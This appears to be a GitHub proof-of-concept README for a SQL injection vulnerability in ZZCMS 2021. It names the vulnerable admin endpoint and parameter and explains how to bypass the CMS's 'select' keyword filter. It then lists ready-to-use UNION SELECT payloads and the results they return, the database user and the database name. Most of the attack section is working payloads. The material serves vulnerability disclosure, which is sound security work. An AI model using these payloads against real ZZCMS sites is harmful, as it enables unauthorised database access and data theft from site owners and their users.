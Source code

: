 # ZZCMS 2021 SQL Injection POC

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

POC
----
1.Request the page as normal and get the response
![](https://github.com/Boomingjacob/ZZCMS/blob/main/1.jpg)
2.If the invalid character "select" is used, the response will report an error

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS
